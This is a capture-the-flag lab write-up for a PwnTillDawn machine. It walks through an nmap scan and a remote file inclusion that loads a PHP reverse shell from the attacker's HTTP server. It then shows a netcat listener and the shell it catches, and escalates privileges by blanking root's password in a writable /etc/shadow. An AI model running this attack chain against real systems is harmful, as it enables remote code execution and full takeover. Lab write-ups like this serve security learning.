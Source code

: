 ```yaml
---
layout: post
title: Pwn 18
date: 10-05-2025
categories: [pwntilldwn]
tags: [exfiltration, blind, commandinjection, wget]
image: "[https://diesec.com/wp-content/uploads/2024/12/pentest-1.jpg](https://img.freepik.com/free-photo/portrait-young-student-education-day_23-2150980071.jpg?ga=GA1.1.1211649084.1746753566&semt=ais_hybrid&w=740)"
---
```


## Scanning

```jsx
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-10 11:45 EAT
Nmap scan report for 10.150.150.18
Host is up (0.15s latency).
Not shown: 97 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.8.5)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.95 seconds

```

## Enumerating webpage

Because the file will be reflected and then will exploit but then it rename the file withsingle php so whont been seen so we add .php infront of .php file

## Vuln RFI

```jsx
mv rev.php rev.php.php

```

create server

```jsx
python3 -m http.server 8000

```

now you have to execute the payload with .php not .php.php because the service will remove .php

```jsx
http://10.150.150.18/index.php?page=http://10.66.66.102:8000/rev.php

```

```jsx
nc -lnvp 443 #killing have happy hacking kid
```

## Initial access

```jsx
                                                                                                                                                                                                                                               
┌──(cyberkid㉿cyberkiddle)-[~/…/redteam/pwntilldawn/21/Depixelization_poc]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.66.66.102] from (UNKNOWN) [10.150.150.18] 53038
bash: cannot set terminal process group (946): Inappropriate ioctl for device
bash: no job control in this shell
www-data@snare:/var/www/html$ 

```

## Priv esc phase

- Move the target linpease and find the user can write, execute and read /etc/shadow
    
    ## edit /etc/shadow
    
    empty pass
    
    - If the edit have successfully then you have to
        
        ```jsx
        python3 -c 'import pty; pty.spawn("/bin/bash")' #This will stablize the shell
        ```
        
    
    ```jsx
    root:!:20216:0:99999:7:::
    
    ```
    
    ```jsx
    sed 's/^root:[^:]*:/root::/' /etc/shadow > /tmp/shadow && cp /tmp/shadow /etc/shadow
    ```
    

## Root

```jsx
www-data@snare:/var/www/html$ su root
su root
Password: 
su: Authentication failure
www-data@snare:/var/www/html$ python3 -c 'import pty;pty.spawnb("/bin/bash")'
python3 -c 'import pty;pty.spawnb("/bin/bash")'
Traceback (most recent call last):
  File "<string>", line 1, in <module>
AttributeError: module 'pty' has no attribute 'spawnb'
www-data@snare:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@snare:/var/www/html$ su root
su root
root@snare:/var/www/html# cd /root
cd /root
root@snare:~# ls
ls
FLAG2.txt  snap
root@snare:~# cat FLAG2.txt
cat FLAG2.txt
2b0286a69b276189afe50517304963e5fa5982d9
root@snare:~# 

```
